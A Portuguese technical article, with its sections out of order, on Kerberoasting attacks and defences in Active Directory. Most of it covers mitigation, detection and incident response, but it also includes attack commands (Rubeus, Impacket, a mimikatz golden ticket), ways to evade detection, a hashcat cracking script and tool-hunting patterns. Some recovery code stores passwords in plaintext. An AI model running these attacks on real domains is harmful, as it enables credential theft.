O Kerberoasting permanece como uma das técnicas de ataque mais efetivas e prevalentes em ambientes Active Directory modernos. Sua combinação de baixa detecção, alto impacto e facilidade de execução o torna uma ameaça persistente que requer abordagem defensiva em múltiplas camadas.

### 16.1 Principais Lições

**Para Organizações:**
1. **Prevenção é mais barata que resposta** - investimento em gMSA e senhas fortes previne comprometimento
2. **Detecção precoce é crítica** - MTTD <5 minutos pode impedir escalação
3. **Defense in depth** - nenhum controle único é suficiente
4. **Auditoria contínua** - landscape de ameaças evolui constantemente

**Para Profissionais de Segurança:**
1. **Entenda o adversário** - conhecer TTPs permite melhor defesa
2. **Automatize quando possível** - respostas rápidas salvam o dia
3. **Documente tudo** - runbooks salvam tempo em crises
4. **Teste regularmente** - purple team exercises validam controles

### 16.2 O Caminho à Frente

A evolução da segurança de Active Directory está caminhando para:
- **Identidades cloud-first** com Azure AD
- **Zero Trust Architecture** eliminando confiança implícita
- **Passwordless authentication** reduzindo superfície de ataque
- **AI/ML em detecção** identificando ataques novos e variantes

Organizações que implementarem os controles descritos neste artigo estarão significativamente mais protegidas contra Kerberoasting e ataques relacionados, posicionando-se melhor para enfrentar o cenário de ameaças em constante evolução.

### 16.3 Call to Action

**Se você é um defensor:**
- Execute a auditoria hoje mesmo
- Priorize mitigações baseadas em risco
- Implemente monitoramento imediatamente
- Treine sua equipe continuamente

**Se você é um atacante ético/Red Team:**
- Teste os controles das organizações
- Documente achados com clareza
- Ajude a melhorar a postura de segurança
- Compartilhe conhecimento responsavelmente

**Se você é um tomador de decisões:**
- Aloque recursos para segurança de identidade
- Apoie iniciativas de migração para gMSA
- Invista em ferramentas de detecção e resposta
- Priorize treinamento e conscientização

A segurança é uma jornada contínua, não um destino. O Kerberoasting é apenas uma das muitas técnicas que adversários utilizam, mas com vigilância, controles apropriados e resposta eficaz, organizações podem defender-se com sucesso contra esta ameaça persistente.

---

**Documento compilado por:** Security Research Team  
**Última atualização:** 19 de Novembro de 2024  
**Versão:** 2.0  
**Licença:** Este documento é fornecido para fins educacionais e de pesquisa de segurança. O uso de técnicas descritas deve ser autorizado e legal.

---

## Sobre o Autor

Este artigo técnico foi desenvolvido com base em pesquisas acadêmicas, experiência prática em segurança ofensiva e defensiva, análise de documentação oficial da Microsoft, e contribuições da comunidade de segurança da informação. 

Para feedback, correções ou contribuições, entre em contato através dos canais oficiais de segurança da sua organização.

**Disclaimer:** As técnicas descritas neste artigo devem ser utilizadas APENAS em ambientes autorizados e para fins legítimos de segurança. O uso não autorizado pode constituir crime cibernético sob leis aplicáveis.

---

*"A melhor defesa é o conhecimento profundo do ataque."* - Security Proverb "gMSA-SQL01" `
  -DNSHostName "gMSA-SQL01.empresa.local" `
  -PrincipalsAllowedToRetrieveManagedPassword "SQL-Servers-Group" `
  -ServicePrincipalNames "MSSQLSvc/sql01.empresa.local:1433"

# Instalar gMSA em servidor
Install-ADServiceAccount -Identity "gMSA-SQL01"

# Testar
Test-ADServiceAccount -Identity "gMSA-SQL01"
```

**Limitações de gMSA:**
- Nem todas as aplicações suportam
- Requer Windows Server 2012+
- Não funciona para serviços em clusters de failover (usar gMSA com clustering support no Server 2012 R2+)

### 7.3 Desabilitar RC4 e Forçar AES

RC4 é significativamente mais vulnerável que AES. Forçar AES aumenta dramaticamente a dificuldade de cracking.

**Group Policy: Disable RC4**
```
Computer Configuration → Policies → Windows Settings → Security Settings → Local Policies → Security Options
→ Network security: Configure encryption types allowed for Kerberos
→ Habilitar apenas: AES128_HMAC_SHA1, AES256_HMAC_SHA1
```

**Via PowerShell:**
```powershell
Set-ADUser -Identity "svc-sql" -KerberosEncryptionType AES128,AES256

# Em massa
Get-ADUser -Filter {ServicePrincipalName -like "*"} | 
  Set-ADUser -KerberosEncryptionType AES128,AES256
```

**Verificar configuração:**
```powershell
Get-ADUser -Identity "svc-sql" -Properties msDS-SupportedEncryptionTypes

# Valores:
# 0x01: DES_CBC_CRC
# 0x02: DES_CBC_MD5
# 0x04: RC4_HMAC_MD5
# 0x08: AES128_CTS_HMAC_SHA1_96
# 0x10: AES256_CTS_HMAC_SHA1_96
```

**Considerações:**
- Testar antes de implementar em produção
- Alguns sistemas legados podem ter problemas com AES-only
- Garantir que DCs suportam AES (Server 2008+)

### 7.4 Auditoria e Monitoramento

**Habilitar Advanced Audit Policy:**
```powershell
# Via GPO ou auditpol
auditpol /set /subcategory:"Kerberos Service Ticket Operations" /success:enable /failure:enable
auditpol /set /subcategory:"Kerberos Authentication Service" /success:enable /failure:enable
```

**Group Policy Path:**
```
Computer Configuration → Policies → Windows Settings → Security Settings → Advanced Audit Policy Configuration
→ Account Logon → Audit Kerberos Service Ticket Operations: Success, Failure
→ Account Logon → Audit Kerberos Authentication Service: Success, Failure
```

**Configurar log retention:**
```powershell
# Aumentar tamanho do Security log
wevtutil sl Security /ms:4194304000  # 4GB

# Configurar forwarding para SIEM
wecutil cs /c:subscription.xml
```

**Alertas automatizados:**
```powershell
# Scheduled Task para verificar Event ID 4769
$Action = New-ScheduledTaskAction -Execute 'PowerShell.exe' -Argument '-File C:\Scripts\Check-Kerberoast.ps1'
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 15)
Register-ScheduledTask -TaskName "Kerberoast Detection" -Action $Action -Trigger $Trigger
```

### 7.5 Least Privilege para Service Accounts

**Princípios:**
- Service accounts devem ter apenas permissões necessárias
- NUNCA adicionar service accounts a Domain Admins
- Usar delegação de privilégios específicos

**Remover privilégios desnecessários:**
```powershell
# Identificar service accounts em grupos privilegiados
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties MemberOf | 
  Where-Object {$_.MemberOf -match "Domain Admins|Enterprise Admins|Schema Admins"} |
  Select-Object Name, SamAccountName, MemberOf

# Remover de grupos
Remove-ADGroupMember -Identity "Domain Admins" -Members "svc-sql" -Confirm:$false
```

**Implementar Role-Based Access Control (RBAC):**
```powershell
# Criar grupo específico para service account
New-ADGroup -Name "SQL-Service-Accounts-Permissions" -GroupScope DomainLocal

# Delegar permissões específicas apenas onde necessário
# Usar dsacls, Set-Acl, ou GUI do AD para configurar ACLs específicas
```

### 7.6 Remover SPNs Desnecessários

**Auditar SPNs:**
```powershell
# Listar todos os SPNs
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName |
  Select-Object Name, @{N='SPNs';E={$_.ServicePrincipalName -join '; '}}

# SPNs duplicados (problemático)
Get-ADObject -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName |
  ForEach-Object {$_.ServicePrincipalName} | Group-Object | Where-Object {$_.Count -gt 1}
```

**Remover SPNs não utilizados:**
```powershell
# Remover SPN específico
Set-ADUser -Identity "old-service-account" -ServicePrincipalNames @{Remove="HTTP/oldapp.empresa.local"}

# Limpar todos os SPNs de conta desabilitada
$user = Get-ADUser "old-svc" -Properties ServicePrincipalName
Set-ADUser $user -ServicePrincipalNames @{Remove=$user.ServicePrincipalName}
```

### 7.7 Segmentação de Rede

**Implementar micro-segmentação:**
- Restringir acesso ao DC (porta 88/TCP) apenas para hosts necessários
- Usar Windows Firewall com regras específicas
- Implementar 802.1X para controle de acesso à rede

**Exemplo de regra de firewall:**
```powershell
# Permitir Kerberos apenas de subnets autorizadas
New-NetFirewallRule -DisplayName "Kerberos - Restrict to Authorized Subnets" `
  -Direction Inbound -Protocol TCP -LocalPort 88 `
  -RemoteAddress 10.10.10.0/24,10.10.20.0/24 -Action Allow

New-NetFirewallRule -DisplayName "Kerberos - Block Others" `
  -Direction Inbound -Protocol TCP -LocalPort 88 `
  -Action Block -Priority 1
```

### 7.8 Hardening de Active Directory

**Implementar Microsoft LAPS:**
- Gerencia senhas de administrador local
- Previne movimentação lateral
```powershell
Install-Module -Name AdmPwd.PS
Import-Module AdmPwd.PS
Update-AdmPwdADSchema
```

**Protected Users Security Group:**
- Membros não podem usar RC4, DES, NTLM
- Tickets TGT não renováveis além de 4 horas
- Não cacheável via Credential Guard

```powershell
Add-ADGroupMember -Identity "Protected Users" -Members "admin-account"
```

**Tiering Model (Red Forest):**
- Tier 0: Domain Controllers, Admin accounts
- Tier 1: Servers
- Tier 2: Workstations
- Previne escalação de privilégios entre tiers

### 7.9 Rotação Regular de Senhas

**Implementar rotação automática:**
```powershell
# Script de rotação programada
$ServiceAccounts = Get-ADUser -Filter {ServicePrincipalName -like "*" -and Enabled -eq $true}

foreach ($account in $ServiceAccounts) {
    $LastSet = $account.PasswordLastSet
    $DaysSinceChange = (New-TimeSpan -Start $LastSet -End (Get-Date)).Days
    
    if ($DaysSinceChange -gt 90) {
        # Gerar nova senha
        $NewPassword = [System.Web.Security.Membership]::GeneratePassword(32,10)
        Set-ADAccountPassword -Identity $account -NewPassword (ConvertTo-SecureString $NewPassword -AsPlainText -Force) -Reset
        
        # Armazenar em cofre de senhas (ex: CyberArk, Azure Key Vault)
        # Store-Password -Account $account.SamAccountName -Password $NewPassword
        
        # Notificar responsáveis
        Send-MailMessage -To "admin@empresa.local" -Subject "Password rotated for $($account.Name)" -Body "Update service configuration"
    }
}
```

### 7.10 Checklist de Mitigação

**Curto Prazo (0-30 dias):**
- [ ] Auditar todas as contas com SPNs
- [ ] Identificar service accounts em grupos privilegiados
- [ ] Implementar senhas complexas (25+ caracteres) em todas as service accounts
- [ ] Habilitar auditoria de Kerberos (Event ID 4769)
- [ ] Configurar alertas para atividades suspeitas
- [ ] Criar honey service accounts

**Médio Prazo (30-90 dias):**
- [ ] Migrar service accounts elegíveis para gMSA
- [ ] Desabilitar RC4 em todo o domínio (após testes)
- [ ] Forçar AES256 para todas as contas com SPNs
- [ ] Implementar Fine-Grained Password Policies
- [ ] Remover privilégios excessivos de service accounts
- [ ] Implementar rotação regular de senhas

**Longo Prazo (90+ dias):**
- [ ] Implementar tiering model completo
- [ ] Migrar para arquitetura Red Forest se necessário
- [ ] Implementar PAM (Privileged Access Management)
- [ ] Integrar com SIEM/SOAR para resposta automatizada
- [ ] Treinar equipe de SOC em detecção de Kerberoasting
- [ ] Realizar purple team exercises regularmente

---

## 8. Técnicas Avançadas de Ataque

### 8.1 Targeted Kerberoasting

Em vez de solicitar todos os SPNs, o atacante identifica alvos de alto valor:

```powershell
# Encontrar service accounts que são Domain Admins
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties MemberOf |
  Where-Object {$_.MemberOf -match "Domain Admins"} |
  ForEach-Object {
    Rubeus.exe kerberoast /user:$_.SamAccountName
  }
```

### 8.2 Kerberoasting sem Privilegios de Rede

**Roasting via Compromised Web Application:**
- Aplicação web com autenticação AD pode ser usada
- Explorar SSRF ou RCE para executar comandos
- Exfiltrar tickets via canais existentes

```csharp
// C# code injection
using System.IdentityModel.Tokens;
var token = new KerberosRequestorSecurityToken("MSSQLSvc/sql01.empresa.local");
```

### 8.3 Kerberoasting em Ambientes Cloud

**Azure AD Connect Sync Accounts:**
- Contas de sincronização podem ter SPNs
- Frequentemente têm privilégios elevados

**Hybrid Environments:**
```powershell
# Enumerar SPNs via Azure AD PowerShell
Connect-AzureAD
Get-AzureADUser -All $true | Where-Object {$_.ServicePrincipalNames -ne $null}
```

### 8.4 AS-REP Roasting Combinado

Combinar com AS-REP Roasting para maximizar coleta de hashes:

```bash
# GetNPUsers.py para contas sem pré-autenticação
python GetNPUsers.py DOMAIN/ -usersfile users.txt -dc-ip 10.10.10.10

# Kerberoasting
python GetUserSPNs.py -request DOMAIN/user:pass -dc-ip 10.10.10.10
```

### 8.5 Persistence via Service Account Compromise

Após comprometer service account:

**Criar SPN Backdoor:**
```powershell
# Adicionar SPN a conta controlada
Set-ADUser -Identity "compromised-user" -ServicePrincipalNames @{Add="HTTP/backdoor.empresa.local"}

# Agora pode ser kerberoasted por outros atacantes da mesma equipe
```

**Golden Ticket com Service Account:**
```cmd
# Se service account tem privilégios para criar Golden Tickets
mimikatz # kerberos::golden /user:Administrator /domain:empresa.local /sid:S-1-5-21-... /krbtgt:HASH /id:500
```

### 8.6 Evasão de Detecção

**Throttling de Requisições:**
```python
import time
for spn in spn_list:
    # Solicitar ticket
    request_ticket(spn)
    # Aguardar intervalo aleatório
    time.sleep(random.randint(300, 600))  # 5-10 minutos
```

**Time-based Attacks:**
- Realizar ataques durante horários de pico
- Misturar com tráfego legítimo
- Distribuir requisições por múltiplas contas

**Proxy/VPN Rotation:**
```bash
# Rotacionar IPs usando proxychains
proxychains python GetUserSPNs.py -request DOMAIN/user:pass
```

---

## 9. Análise Forense e Resposta a Incidentes

### 9.1 Identificação de Comprometimento

**Indicadores de Kerberoasting Bem-Sucedido:**

1. **Event Logs:**
```powershell
# Identificar padrões de múltiplas requisições TGS
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769} |
  Where-Object {$_.TimeCreated -gt (Get-Date).AddHours(-24)} |
  Group-Object {$_.Properties[0].Value} |
  Where-Object {$_.Count -gt 15} |
  Select-Object Name, Count |
  Sort-Object Count -Descending
```

2. **Tickets em Cache:**
```cmd
# Verificar tickets Kerberos em sistema comprometido
klist

# Procurar por múltiplos tickets de serviço
klist | findstr /i "Service"
```

3. **Análise de Memória:**
```powershell
# Usando Volatility para análise de dump de memória
volatility -f memory.dmp --profile=Win10x64 kerberos
```

### 9.2 Coleta de Evidências

**Logs críticos para preservar:**
```powershell
# Exportar Security logs
wevtutil epl Security C:\Forensics\Security_$(Get-Date -Format yyyyMMdd_HHmmss).evtx

# Exportar com filtro específico
wevtutil qe Security /q:"*[System[(EventID=4769)]]" /f:text > C:\Forensics\4769_events.txt

# PowerShell history
Get-Content $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

**Artifacts de ferramentas:**
```powershell
# Procurar por ferramentas conhecidas
Get-ChildItem -Path C:\ -Recurse -Include "*rubeus*","*mimikatz*","*kerberoast*","*invoke-kerberoast*" -ErrorAction SilentlyContinue

# Verificar execução recente
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-PowerShell/Operational'; ID=4104} |
  Where-Object {$_.Message -match "Invoke-Kerberoast|Rubeus|GetUserSPNs"}
```

**Network traffic:**
```bash
# Analisar pcap para Kerberos traffic
tshark -r capture.pcap -Y "kerberos.msg_type == 12 or kerberos.msg_type == 13" -T fields -e frame.time -e ip.src -e ip.dst -e kerberos.SNameString
```

### 9.3 Timeline Reconstruction

```powershell
# Reconstruir timeline de ataque
$Events = @()

# 4768: TGT Request (autenticação inicial)
$Events += Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4768} |
  Where-Object {$_.TimeCreated -gt $IncidentStart} |
  Select-Object TimeCreated, @{N='Event';E={'TGT Request'}}, @{N='User';E={$_.Properties[0].Value}}

# 4769: TGS Request (kerberoasting)
$Events += Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769} |
  Where-Object {$_.TimeCreated -gt $IncidentStart} |
  Select-Object TimeCreated, @{N='Event';E={'TGS Request'}}, @{N='User';E={$_.Properties[0].Value}}, @{N='Service';E={$_.Properties[1].Value}}

# 4624: Successful Logon (pós-comprometimento)
$Events += Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4624; LogonType=3} |
  Where-Object {$_.TimeCreated -gt $IncidentStart} |
  Select-Object TimeCreated, @{N='Event';E={'Network Logon'}}, @{N='User';E={$_.Properties[5].Value}}

$Events | Sort-Object TimeCreated | Export-Csv C:\Forensics\Timeline.csv -NoTypeInformation
```

### 9.4 Contenção

**Ações imediatas:**

1. **Reset de senha da conta comprometida:**
```powershell
Set-ADAccountPassword -Identity "svc-sql-compromised" -Reset -NewPassword (ConvertTo-SecureString "TempC0mplex!Pass#2024xyz" -AsPlainText -Force)

# Forçar logoff de todas as sessões
Invoke-Command -ComputerName (Get-ADComputer -Filter *).Name -ScriptBlock {
    query user | Select-String "svc-sql-compromised" | ForEach-Object {
        logoff ($_ -split '\s+')[2]
    }
}
```

2. **Revogar tickets Kerberos:**
```powershell
# Incrementar msDS-KeyVersionNumber força invalidação de tickets
Set-ADUser -Identity "svc-sql-compromised" -Replace @{"msDS-KeyVersionNumber"=((Get-ADUser "svc-sql-compromised" -Properties "msDS-KeyVersionNumber")."msDS-KeyVersionNumber" + 1)}
```

3. **Bloquear acesso de IPs suspeitos:**
```powershell
# Adicionar regra de firewall
New-NetFirewallRule -DisplayName "Block Malicious IP" -Direction Inbound -RemoteAddress 192.168.1.100 -Action Block
```

4. **Isolar sistemas comprometidos:**
```powershell
# Desabilitar interfaces de rede remotamente
Invoke-Command -ComputerName COMPROMISED-HOST -ScriptBlock {
    Get-NetAdapter | Disable-NetAdapter -Confirm:$false
}
```

### 9.5 Erradicação

**Remover persistência:**
```powershell
# Procurar por scheduled tasks maliciosas
Get-ScheduledTask | Where-Object {$_.Actions.Execute -match "powershell|cmd|wscript"} |
  Where-Object {$_.Author -notmatch "Microsoft|Administrator"}

# Procurar por serviços suspeitos
Get-Service | Where-Object {$_.DisplayName -match "Update|Updater|Service"} |
  Where-Object {$_.ServiceName -notmatch "^wu|^Windows"}

# Verificar startup items
Get-CimInstance Win32_StartupCommand | Select-Object Name, Command, Location, User
```

**Verificar alterações em AD:**
```powershell
# Verificar SPNs adicionados recentemente
Get-ADObject -Filter {ServicePrincipalName -like "*"} -Properties whenChanged, ServicePrincipalName |
  Where-Object {$_.whenChanged -gt (Get-Date).AddDays(-7)} |
  Select-Object Name, ServicePrincipalName, whenChanged

# Verificar mudanças de grupo
Get-ADGroup "Domain Admins" -Properties whenChanged, member |
  Select-Object whenChanged, @{N='Members';E={$_.member}}
```

### 9.6 Recuperação

**Plano de recuperação:**

1. **Reset massivo de senhas de service accounts:**
```powershell
$ServiceAccounts = Get-ADUser -Filter {ServicePrincipalName -like "*"}
foreach ($account in $ServiceAccounts) {
    $newPass = [System.Web.Security.Membership]::GeneratePassword(32,10)
    Set-ADAccountPassword -Identity $account -Reset -NewPassword (ConvertTo-SecureString $newPass -AsPlainText -Force)
    
    # Documentar em vault seguro
    "$($account.Name),$newPass" | Out-File C:\Secure\PasswordResets.txt -Append
}
```

2. **Atualizar configurações de serviços:**
```powershell
# Exemplo para SQL Server (adaptar conforme necessário)
$service = Get-Service MSSQLSERVER
Stop-Service $service
$newCred = Get-Credential "DOMAIN\svc-sql"
$service | Set-Service -Credential $newCred
Start-Service $service
```

3. **Reforçar monitoramento:**
```powershell
# Criar alerta específico pós-incidente
$Action = New-ScheduledTaskAction -Execute 'PowerShell.exe' -Argument '-Command "Get-WinEvent -FilterHashtable @{LogName=\"Security\"; ID=4769; StartTime=(Get-Date).AddMinutes(-5)} | Where-Object {\$_.Properties[0].Value -match \"svc-\"} | Export-Csv C:\Monitoring\Kerberos_$(Get-Date -Format yyyyMMdd).csv -Append"'
$Trigger = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 5)
Register-ScheduledTask -TaskName "Enhanced Kerberos Monitoring" -Action $Action -Trigger $Trigger
```

### 9.7 Lessons Learned

**Documentação pós-incidente:**
```markdown
# Incident Report: Kerberoasting Attack

## Executive Summary
- Date: [data]
- Duration: [tempo de comprometimento]
- Accounts affected: [número]
- Impact: [descrição]

## Attack Vector
- Initial access: [como]
- Propagation: [lateral movement]
- Exfiltration: [dados comprometidos]

## Root Cause
- Weak passwords on service accounts
- Lack of monitoring for Event ID 4769
- RC4 encryption enabled

## Remediation Actions
1. [ação 1]
2. [ação 2]
...

## Preventive Measures
- Implement gMSA
- Disable RC4
- Enhanced monitoring
- Security awareness training

## Cost Analysis
- Direct costs: $X
- Downtime: Y hours
- Reputation impact: [avaliação]
```

---

## 10. Ferramentas e Scripts Úteis

### 10.1 Scripts de Detecção

**PowerShell - Auditoria Completa de SPNs:**
```powershell
function Get-KerberoastableAccounts {
    [CmdletBinding()]
    param(
        [Parameter()][int]$PasswordAgeDays = 365,
        [Parameter()][int]$MinPasswordLength = 25
    )
    
    $KerberoastableUsers = Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties `
        ServicePrincipalName, PasswordLastSet, PasswordNeverExpires, Enabled, `
        MemberOf, Description, Created, LastLogonDate, msDS-SupportedEncryptionTypes
    
    $Results = @()
    
    foreach ($user in $KerberoastableUsers) {
        $PasswordAge = (New-TimeSpan -Start $user.PasswordLastSet -End (Get-Date)).Days
        $IsHighValue = $user.MemberOf -match "Admin|Privileged"
        
        $EncTypes = $user.'msDS-SupportedEncryptionTypes'
        $UsesRC4 = ($EncTypes -band 0x04) -or ($EncTypes -eq $null)
        
        $Risk = "Low"
        if ($PasswordAge -gt $PasswordAgeDays -and $UsesRC4) { $Risk = "Critical" }
        elseif ($PasswordAge -gt $PasswordAgeDays -or $UsesRC4) { $Risk = "High" }
        elseif ($IsHighValue) { $Risk = "Medium" }
        
        $Results += [PSCustomObject]@{
            SamAccountName = $user.SamAccountName
            SPNs = ($user.ServicePrincipalName -join "; ")
            PasswordAge = $PasswordAge
            PasswordNeverExpires = $user.PasswordNeverExpires
            UsesRC4 = $UsesRC4
            IsHighValue = $IsHighValue
            Enabled = $user.Enabled
            LastLogon = $user.LastLogonDate
            RiskLevel = $Risk
        }
    }
    
    return $Results | Sort-Object RiskLevel -Descending
}

# Executar
Get-KerberoastableAccounts | Export-Csv C:\Audit\KerberoastRisk.csv -NoTypeInformation
Get-KerberoastableAccounts | Where-Object {$_.RiskLevel -eq "Critical"} | Format-Table -AutoSize
```

**Python - Monitor em Tempo Real:**
```python
#!/usr/bin/env python3
import win32evtlog
import win32evtlogutil
import win32con
from collections import defaultdict
from datetime import datetime, timedelta
import time

def monitor_kerberoasting(threshold=10, time_window=5):
    """
    Monitora Event ID 4769 para detectar Kerberoasting
    threshold: número de requisições TGS únicas
    time_window: janela de tempo em minutos
    """
    server = 'localhost'
    logtype = 'Security'
    hand = win32evtlog.OpenEventLog(server, logtype)
    flags = win32evtlog.EVENTLOG_BACKWARDS_READ | win32evtlog.EVENTLOG_SEQUENTIAL_READ
    
    user_requests = defaultdict(lambda: {'count': 0, 'services': set(), 'first_seen': None})
    
    print(f"[*] Monitoring for Kerberoasting (threshold: {threshold} requests in {time_window} min)")
    
    while True:
        events = win32evtlog.ReadEventLog(hand, flags, 0)
        
        for event in events:
            if event.EventID == 4769:
                # Extrair dados do evento
                event_time = event.TimeGenerated
                data = win32evtlogutil.SafeFormatMessage(event, logtype)
                
                # Parse dos campos (adaptação necessária)
                # account_name = ...
                # service_name = ...
                
                # Lógica de detecção
                # if user_requests[account_name]['count'] > threshold:
                #     alert(account_name, user_requests[account_name])
        
        time.sleep(10)

if __name__ == "__main__":
    monitor_kerberoasting()
```

### 10.2 Scripts de Remediação

**PowerShell - Implementação em Massa de gMSA:**
```powershell
function Convert-ToGMSA {
    [CmdletBinding()]
    param(
        [Parameter(Mandatory)][string]$ServiceAccount,
        [Parameter(Mandatory)][string[]]$AllowedHosts
    )
    
    # Obter informações da conta atual
    $oldAccount = Get-ADUser $ServiceAccount -Properties ServicePrincipalName, MemberOf
    
    # Criar grupo de hosts permitidos
    $groupName = "gMSA-$ServiceAccount-Hosts"
    New-ADGroup -Name $groupName -GroupScope DomainLocal -GroupCategory Security
    
    foreach ($host in $AllowedHosts) {
        $computer = Get-ADComputer $host
        Add-ADGroupMember -Identity $groupName -Members $computer
    }
    
    # Criar gMSA
    $gmsaName = "gMSA-$ServiceAccount"
    New-ADServiceAccount -Name $gmsaName `
        -DNSHostName "$gmsaName.$env:USERDNSDOMAIN" `
        -ServicePrincipalNames $oldAccount.ServicePrincipalName `
        -PrincipalsAllowedToRetrieveManagedPassword $groupName
    
    Write-Host "[+] gMSA $gmsaName created successfully"
    Write-Host "[!] Manual steps required:"
    Write-Host "    1. Install gMSA on target hosts: Install-ADServiceAccount $gmsaName"
    Write-Host "    2. Update service configuration to use $gmsaName"
    Write-Host "    3. Test service functionality"
    Write-Host "    4. Disable old account: Disable-ADAccount $ServiceAccount"
}

# Exemplo de uso
Convert-ToGMSA -ServiceAccount "svc-sql" -AllowedHosts @("SQL01", "SQL02")
```

**Bash - Cracking Automatizado com Hashcat:**
```bash
#!/bin/bash
# kerberoast-crack.sh

HASH_FILE=$1
WORDLIST="/usr/share/wordlists/rockyou.txt"
OUTPUT_DIR="./cracked"
RULES="/usr/share/hashcat/rules/best64.rule"

mkdir -p $OUTPUT_DIR

# Identificar tipo de hash
echo "[*] Identifying hash types..."
hashcat --identify $HASH_FILE

# Extrair RC4 hashes (mais fáceis)
grep '\$krb5tgs\$23' $HASH_FILE > ${OUTPUT_DIR}/rc4_hashes.txt

# Extrair AES hashes
grep -E '\$krb5tgs\$(17|18)' $HASH_FILE > ${OUTPUT_DIR}/aes_hashes.txt

# Crack RC4 com wordlist
echo "[*] Cracking RC4 hashes with wordlist..."
hashcat -m 13100 -a 0 ${OUTPUT_DIR}/rc4_hashes.txt $WORDLIST -o ${OUTPUT_DIR}/cracked_rc4.txt

# Crack RC4 com regras
echo "[*] Cracking RC4 hashes with rules..."
hashcat -m 13100 -a 0 ${OUTPUT_DIR}/rc4_hashes.txt $WORDLIST -r $RULES -o ${OUTPUT_DIR}/cracked_rc4_rules.txt

# Crack AES256 (mais lento)
echo "[*] Cracking AES256 hashes (this will take longer)..."
hashcat -m 19700 -a 0 ${OUTPUT_DIR}/aes_hashes.txt $WORDLIST -o ${OUTPUT_DIR}/cracked_aes.txt

# Resumo
echo "[+] Cracking complete! Results:"
hashcat -m 13100 ${OUTPUT_DIR}/rc4_hashes.txt --show
hashcat -m 19700 ${OUTPUT_DIR}/aes_hashes.txt --show
```

---

## 11. Conclusão

O Kerberoasting representa uma ameaça significativa e persistente para ambientes Active Directory, explorando características fundamentais do protocolo Kerberos que não podem ser facilmente alteradas sem quebrar a compatibilidade. A técnica é particularmente perigosa porque:

1. **Requer apenas privilégios mínimos** - qualquer usuário de domínio pode executar
2. **Difícil de detectar** - comportamento pode parecer legítimo
3. **Ataque offline** - cracking ocorre fora da rede corporativa
4. **Alta taxa de sucesso** - muitas organizações têm service accounts com senhas fracas

### 11.1 Principais Takeaways

**Para Defensores:**
- Implementar gMSA sempre que possível
- Forçar senhas longas (30+ caracteres) em service accounts
- Desabilitar RC4 e forçar AES256
- Monitorar Event ID 4769 com alertas baseados em comportamento
- Aplicar princípio de least privilege rigorosamente
- Realizar auditorias regulares de SPNs e service accounts
- Implementar honey accounts para detecção precoce

**Para Auditores e Red Teams:**
- Kerberoasting deve ser parte de toda avaliação de segurança AD
- Combinar com outras técnicas (AS-REP Roasting, password spraying)
- Focar em contas de alto valor e lateral movement paths
- Documentar achados com evidências e impacto de negócio

**Para Gestores de Segurança:**
- Investir em PAM (Privileged Access Management)
- Priorizar migração para gMSA em roadmap de segurança
- Implementar SIEM com casos de uso específicos para Kerberoasting
- Treinar equipes em detecção e resposta
- Considerar arquiteturas modernas (Zero Trust, Red Forest)

### 11.2 O Futuro da Defesa contra Kerberoasting

**Tendências Emergentes:**

1. **Machine Learning para Detecção:**
   - Análise comportamental de padrões de requisição TGS
   - Detecção de anomalias em tempo real
   - Redução de falsos positivos através de baseline automatizado

2. **Autenticação sem Senha:**
   - Windows Hello for Business
   - FIDO2 tokens
   - Certificate-based authentication
   - Reduz dependência de senhas fracas

3. **Kerberos Armoring:**
   - FAST (Flexible Authentication Secure Tunneling)
   - Proteção adicional para tráfego Kerberos
   - Dificulta ataques man-in-the-middle

4. **Cloud-Native Security:**
   - Azure AD com Conditional Access
   - Proteção avançada contra ataques de identidade
   - Integração com threat intelligence

### 11.3 Recursos Adicionais

**Documentação Oficial:**
- Microsoft: "Kerberos Authentication Overview" - https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview
- MITRE ATT&CK: T1558.003 - Steal or Forge Kerberos Tickets: Kerberoasting
- NIST SP 800-63B: Digital Identity Guidelines

**Ferramentas:**
- Rubeus: https://github.com/GhostPack/Rubeus
- Impacket: https://github.com/SecureAuthCorp/impacket
- PowerView: https://github.com/PowerShellMafia/PowerSploit
- BloodHound: https://github.com/BloodHoundAD/BloodHound
- Hashcat: https://hashcat.net/hashcat/

**Papers e Apresentações:**
- Tim Medin - "Attacking Microsoft Kerberos: Kicking the Guard Dog of Hades" (DerbyCon 2014)
- Sean Metcalf - "Kerberos & Attacks 101" (Black Hat USA)
- Will Schroeder & Matt Graeber - "An ACE Up the Sleeve" (Black Hat USA 2017)

**Cursos e Certificações:**
- SANS SEC560: Network Penetration Testing and Ethical Hacking
- Offensive Security OSEP: Experienced Penetration Tester
- GIAC GPEN: Penetration Tester Certification
- eLearnSecurity eCPTX: Certified Penetration Tester eXtreme

### 11.4 Matriz de Decisão para Priorização

| Cenário | Risco | Prioridade | Ação Recomendada |
|---------|-------|------------|------------------|
| Service account em Domain Admins com senha antiga (>1 ano) e RC4 | **CRÍTICO** | P0 (Imediato) | Reset senha imediato, remover de DA, migrar para gMSA, habilitar AES |
| Service account com privilégios elevados, senha <1 ano, RC4 | **ALTO** | P1 (1-7 dias) | Trocar senha, forçar AES, avaliar gMSA, reduzir privilégios |
| Service account regular com senha complexa mas RC4 | **MÉDIO** | P2 (1-30 dias) | Forçar AES, aumentar complexidade, monitorar |
| Service account com gMSA e AES256 | **BAIXO** | P3 (Manutenção) | Revisar privilégios, manter monitoramento |

### 11.5 Checklist de Auditoria Kerberoasting

**Identificação:**
- [ ] Enumerar todas as contas com SPNs no domínio
- [ ] Identificar contas com RC4 habilitado
- [ ] Mapear service accounts em grupos privilegiados
- [ ] Verificar idade das senhas (>90 dias = crítico)
- [ ] Identificar contas com PasswordNeverExpires = true
- [ ] Listar SPNs duplicados ou órfãos

**Avaliação de Risco:**
- [ ] Classificar contas por criticidade (Tier 0, 1, 2)
- [ ] Avaliar superfície de ataque (quantas contas kerberoastable?)
